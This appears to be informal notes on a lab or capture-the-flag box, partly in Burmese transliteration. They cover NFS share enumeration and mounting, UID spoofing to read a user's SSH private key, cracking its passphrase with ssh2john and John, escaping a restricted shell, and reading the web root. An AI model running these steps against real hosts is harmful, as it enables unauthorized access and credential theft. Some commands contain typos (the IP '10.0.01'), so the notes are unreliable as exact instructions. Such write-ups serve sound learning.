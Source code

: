 
nmap -sn 192.168.99.1/24 

showmount -e 10.0.1.1     => bal file twe ko sharing loke htar lal

mkdir /tmp/mn      => local machine

sudo mount 10.0.0.1:/home/karl /tmp/mn    => mount loke dar

-----
=> we change to karl user in our local machine 

and then we add user

sudo -s

useradd -m karl  -u 1001

passwd karl

------------
=> and then go to the .ssh file with this user

su karl

ls -al

cd .ssh

** We get user now 

----

cat id_rsa   => and then copy that 

subl key.txt  => and then past here 

chmod 600 key.txt    => we have to change default permission to use this

ssh -i key.txt karl@10.0.01

=> password need to enter => most of the key is not need key 

wget https://github.com/thawkhant/ssh2john.git   => download ssh2john

python ssh2john.py > tocrack.txt

python ssh2john.py key.txt    => working now with his own format

john tocrack.txt --wordlist=/usr/share/wordlists/rockyou.txt  => crack now

we get password now ***

go again to 

ssh -i key.txt karl@10.0.0.1
password

we got with rbash shell  => this shell is littery stupid 
so we change to another one

ssh -i key.txt karl@10.0.01 -t "/bin/sh"  => we change shell file  

*** we get it Lol!

-------
we go go the web service 

cd /var/www/html

cat admin.php   => we saw admin.php





